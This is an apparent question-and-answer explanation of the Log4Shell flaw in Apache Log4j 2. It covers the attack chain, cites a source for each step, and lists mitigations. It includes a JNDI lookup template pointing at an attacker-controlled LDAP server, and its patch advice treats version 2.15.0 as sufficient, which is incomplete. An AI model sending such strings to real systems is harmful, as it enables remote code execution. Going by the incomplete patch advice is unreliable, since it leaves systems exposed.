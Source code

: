 Can you explain how the vulnerability in CVE-2021-44228 works? How is code execution achieved by an attacker? Please provide sources for everything.
CVE-2021-44228, also known as the Log4Shell vulnerability, is a critical security flaw in the Apache Log4j 2 library, a widely used Java-based logging utility. The vulnerability allows an attacker to perform remote code execution (RCE) by exploiting the way Log4j handles log messages containing JNDI (Java Naming and Directory Interface) references.

Here's a step-by-step explanation of how the vulnerability works and how an attacker can achieve code execution, along with sources for each step:

Attacker crafts a malicious input: The attacker creates a specially crafted input containing a JNDI reference. This typically looks like ${jndi:ldap://<attacker-controlled-server>/<payload>}. The attacker then sends this input to a vulnerable application that uses Log4j 2 for logging purposes.
Source: https://www.lunasec.io/docs/blog/log4j-zero-day/

Log4j processes the input: When the vulnerable application processes the attacker's input and generates a log message containing it, Log4j 2 attempts to resolve the JNDI reference. This causes the Java runtime to connect to the attacker-controlled LDAP server specified in the JNDI reference.
Source: https://www.randori.com/blog/cve-2021-44228/

LDAP server responds with a payload: The attacker's LDAP server responds to the Java runtime's query with a Java object, which is actually a malicious payload (typically a Java class implementing a gadget that can lead to arbitrary code execution). The payload is then loaded and executed by the Java runtime in the context of the vulnerable application.
Source: https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-log4shell/

Code execution: The malicious payload runs within the vulnerable application's environment, allowing the attacker to execute arbitrary code, access sensitive data, or perform other malicious actions.
Source: https://portswigger.net/daily-swig/apache-log4j-vulnerability-cve-2021-44228-what-you-need-to-know

The Log4Shell vulnerability is particularly dangerous because it can be exploited with minimal effort and requires only a crafted input sent to a vulnerable application. Additionally, Log4j 2 is used in many popular Java-based applications and frameworks, making the impact of this vulnerability widespread.

Mitigations for this vulnerability include upgrading Log4j to a patched version (2.15.0 or later), disabling JNDI lookups, or applying other configuration changes recommended by the Apache Log4j team.
Source: https://logging.apache.org/log4j/2.x/security.html
